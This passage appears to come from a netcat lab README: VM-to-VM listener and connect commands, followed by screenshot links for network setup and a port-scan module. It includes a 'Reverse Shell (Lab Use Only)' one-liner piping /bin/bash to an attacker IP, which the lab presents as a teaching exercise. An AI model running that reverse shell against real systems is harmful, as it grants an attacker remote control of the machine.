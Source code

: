 **On one VM:**
```bash
nc -lvp 1234
```

**On the other:**
```bash
nc <target_ip> 1234
```

### 6. Reverse Shell (Lab Use Only)
```bash
nc -e /bin/bash <attacker_ip> <port>
```
> ⚠️ Use only in ethical, controlled environments.
>
> ## 📸 Lab Proof: Screenshots

---

### ⚙️ Pre-Module Setup

**Network Configuration**
![Pre Setup 1](NETCAT%20screenshots/pre-setup-1.png)

**VM Initialization**
![Pre Setup 2](NETCAT%20screenshots/pre-setup-2.png)

**Shared Folder Mount**
![Pre Setup 3](NETCAT%20screenshots/pre-setup-3.png)

---

### 🔍 Module 1: Port Scan

**Scan Execution**
![Port Scan 1](NETCAT%20screenshots/port-scan-1.png)